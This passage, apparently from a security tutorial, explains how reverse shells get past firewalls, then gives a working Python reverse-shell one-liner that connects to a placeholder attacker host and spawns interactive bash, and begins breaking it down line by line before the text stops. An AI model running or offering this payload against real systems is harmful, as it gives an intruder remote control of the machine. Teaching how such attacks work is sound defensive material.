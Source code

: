 A **reverse shell** flips this normal process. Instead of the attacker connecting to the target (like a traditional client-server interaction), the target server initiates the connection to the attacker’s machine.

This inversion has a very practical reason: firewalls and NAT devices commonly block inbound connections, but they usually allow outbound connections, especially on common ports.

Once the target connects back to the attacker's listener the attacker can respond however they want — sending commands, payloads, or malicious input. Commonly, the attacker establish a command line interface, aiming for lateral moving and escalating privileges.

### How to exploit it

To establish a reverse shell, the first requirement is to gain some form of **Remote Code Execution (RCE)** that allows arbitrary command execution on the target server.

Once RCE is achieved, the next step is to construct a payload. To do this, you need to identify a scripting language available on the target machine. On most Linux servers, **Python is a reliable choice**.

**Payload example:**

```bash
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("attacker-ip", attacker-port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"]);'
```

**Breaking Down the Payload — Step by Step:**

**Identifying the python binary:**

```bash
which python || which python3
```

Once confirmed, you can proceed to execute the payload.

**Importing required libraries:**

```bash
import socket
import subprocess
import os
```

Loads three essential modules:

- `socket`: handles the creation of the socket and manages the TCP connection.
- `subprocess`: executes commands on the system — here, it opens a shell.
- `os`: handles file descriptors — stdin (input), stdout (output), and stderr (errors).

**Creating the socket:**

```bash
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

